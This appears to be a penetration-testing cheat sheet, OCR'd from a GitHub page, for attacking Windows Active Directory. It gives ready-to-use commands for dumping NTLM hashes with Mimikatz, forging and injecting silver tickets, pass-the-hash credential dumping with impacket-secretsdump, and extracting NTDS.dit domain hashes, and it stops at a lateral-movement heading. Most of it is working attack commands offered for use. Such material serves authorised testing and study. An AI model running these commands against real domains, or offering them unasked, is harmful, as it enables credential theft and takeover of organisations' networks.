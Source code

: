 ## Silver Tickets

- Obtaining hash of an SPN user using **Mimikatz**

```bash
privilege::debug
# obtain NTLM hash of the SPN account here
sekurlsa::logonpasswords 
```

- Obtaining Domain SID

```powershell
whoami /user
# this gives SID of the user that we're logged in as. If the user SID is "S-1-5-21-1987370270-658905905-1781884369-1105" then the domain SID is "S-1-5-21-1987370270-658905905-1781884369"
```

- Forging silver ticket Ft **Mimikatz**

```bash
kerberos::golden /sid:<domainSID> /domain:<domain-name> /ptt /target:<targetsystem.domain> /service:<service-name> /rc4:<NTLM-hash> /user:<new-user>
exit

# we can check the tickets by,
ps> klist
```

- Accessing service

```bash
ps> iwr -UseDefaultCredentials <servicename>://<computername>
```

## Secretsdump

```bash
impacket-secretsdump <domain>/<user>:<password>@IP
# local user
impacket-secretsdump user@IP -hashes lmhash:ntlmhash 
# domain user
impacket-secretsdump domain/user@IP -hashes lmhash:ntlmhash 
```

## Dumping NTDS.dit

```bash
impacket-secretsdump <domain>/<user>:<password>@IP -just-dc-ntlm
# use -just-dc-ntlm option with any of the secretsdump command to dump ntds.dit
```

# Active Directory Lateral Movement

## psexec - smbexec - wmiexec - atexec
